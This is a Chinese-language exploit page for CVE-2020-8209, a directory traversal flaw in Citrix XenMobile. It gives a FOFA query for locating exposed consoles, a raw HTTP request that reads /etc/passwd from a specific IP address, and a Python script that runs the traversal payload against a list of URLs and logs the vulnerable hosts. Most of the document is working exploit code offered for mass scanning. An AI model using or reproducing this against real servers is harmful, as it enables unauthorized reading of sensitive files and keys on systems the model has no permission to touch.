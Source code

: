 # CVE-2020-8209 XenMobile(Citrix Endpoint Management) 目录遍历漏洞

利用此漏洞，可以读取Web服务器根目录之外的任意文件，包括配置文件和敏感的加密密钥。剥削不需要授权。在文件help-sb-download.jsp中标识了易受攻击的代码：

fofa：

app="XenMobile-控制台"

media/16096811112255/16096811265936.jpg)


PoC：


```
GET /jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd HTTP/1.1
Host: 88.212.26.164
```

批量检测脚本：

CVE-2020-8209-Multiple.py：



```python
#!/usr/bin/env python
# coding:utf-8
# author:B1anda0

import requests,sys,colorama
from colorama import *
init(autoreset=True)


banner='''\033[1;33;40m
  _______      ________    ___   ___ ___   ___         ___ ___   ___   ___  
 / ____\ \    / /  ____|  |__ \ / _ \__ \ / _ \       / _ \__ \ / _ \ / _ \ 
| |     \ \  / /| |__ ______ ) | | | | ) | | | |_____| (_) | ) | | | | (_) |
| |      \ \/ / |  __|______/ /| | | |/ /| | | |______> _ < / /| | | |\__, |
| |____   \  /  | |____    / /_| |_| / /_| |_| |     | (_) / /_| |_| |  / / 
 \_____|   \/   |______|  |____|\___/____|\___/       \___/____|\___/  /_/  
                                                                                                                                                       
'''


def XenMobile():
        headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
        payload= '/jsp/help-sb-download.jsp?sbFileName=../../../etc/passwd'
        poc=urls+payload
        try:
                requests.packages.urllib3.disable_warnings()#解决InsecureRequestWarning警告
                response=requests.get(poc,headers=headers,timeout=10,verify=False)
                if response.status_code==200 and "root" in response.content:
                        print(u'\033[1;31;40m[+]{} is citrix xenmobile directory traversal vulnerability'.format(urls))
                        print(response.content)
                        #将漏洞地址输出在Vul.txt中
                        f=open('./vul.txt','a')
                        f.write(urls)
                        f.write('\n')
                else:
                        print('\033[1;32;40m[-]{} None'.format(urls))
        except:
                print('{} request timeout'.format(urls))


if __name__ == '__main__':
        print (banner)
        if len(sys.argv)!=2:
                print('Example:python CVE-2020-8209.py url.txt')
        else:
                file = open(sys.argv[1])
                for url in file.readlines():
                        urls=url.strip()
                        if urls[-1]=='/':
                                urls=urls[:-1]
                        XenMobile()
                print ('Check Over')
```

使用方法：Python CVE-2020-8209-Multiple.py url.txt

ref；

https://github.com/B1anda0/CVE-2020-8209

https://forum.ywhack.com/thread-114707-1-3.html
